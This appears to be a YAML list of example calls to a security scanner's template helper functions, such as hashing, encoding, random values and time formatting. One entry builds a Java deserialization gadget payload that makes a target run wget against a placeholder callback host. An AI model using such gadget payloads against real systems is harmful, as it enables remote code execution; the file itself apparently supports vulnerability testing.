 ```yaml
        8: {{contains_all("Hello everyone", "lo", "every")}}
        9: {{contains_any("Hello everyone", "abc", "llo")}}
        10: {{date_time("%Y-%M-%D")}}
        11: {{date_time("%Y-%M-%D", unix_time())}}
        12: {{date_time("%H-%m")}}
        13: {{date_time("02-01-2006 15:04")}}
        14: {{date_time("02-01-2006 15:04", unix_time())}}
        15: {{dec_to_hex(11111)}}
        16: {{generate_java_gadget("commons-collections3.1", "wget http://{{interactsh-url}}", "base64")}}
        17: {{gzip("Hello")}}
        18: {{gzip_decode(hex_decode("1f8b08000000000000fff248cdc9c907040000ffff8289d1f705000000"))}}
        19: {{hex_decode("6161")}}
        20: {{hex_encode("aa")}}
        21: {{hmac("sha1", "test", "scrt")}} 
        22: {{hmac("sha256", "test", "scrt")}}
        23: {{html_escape("<body>test</body>")}}
        24: {{html_unescape("&lt;body&gt;test&lt;/body&gt;")}}
        25: {{join("_", "hello", "world")}}
        26: {{len("Hello")}}
        27: {{len(5555)}}
        28: {{md5("Hello")}}
        29: {{md5(1234)}}
        30: {{mmh3("Hello")}}
        31: {{print_debug(1+2, "Hello")}}
        32: {{rand_base(5, "abc")}}
        33: {{rand_base(5, "")}}
        34: {{rand_base(5)}}
        35: {{rand_char("abc")}}
        36: {{rand_char("")}}
        37: {{rand_char()}}
        38: {{rand_int(1, 10)}}
        39: {{rand_int(10)}}
        40: {{rand_int()}}
        41: {{rand_ip("192.168.0.0/24")}}
        42: {{rand_ip("2002:c0a8::/24")}}
        43: {{rand_ip("192.168.0.0/24","10.0.100.0/24")}}
        44: {{rand_text_alpha(10, "abc")}}
        45: {{rand_text_alpha(10, "")}}
        46: {{rand_text_alpha(10)}}
        47: {{rand_text_alphanumeric(10, "ab12")}}
        48: {{rand_text_alphanumeric(10)}}
        49: {{rand_text_numeric(10, 123)}}
        50: {{rand_text_numeric(10)}}
        51: {{regex("H([a-z]+)o", "Hello")}}
        52: {{remove_bad_chars("abcd", "bc")}}
        53: {{repeat("a", 5)}}
        54: {{replace("Hello", "He", "Ha")}}
        55: {{replace_regex("He123llo", "(\\d+)", "")}}
        56: {{reverse("abc")}}
        57: {{sha1("Hello")}}
        58: {{sha256("Hello")}}
        59: {{to_lower("HELLO")}}
        60: {{to_upper("hello")}}
        61: {{trim("aaaHelloddd", "ad")}}
        62: {{trim_left("aaaHelloddd", "ad")}}
        63: {{trim_prefix("aaHelloaa", "aa")}}
        64: {{trim_right("aaaHelloddd", "ad")}}
        65: {{trim_space("  Hello  ")}}
        66: {{trim_suffix("aaHelloaa", "aa")}}
        67: {{unix_time(10)}}
        68: {{url_decode("https:%2F%2Fprojectdiscovery.io%3Ftest=1")}}
```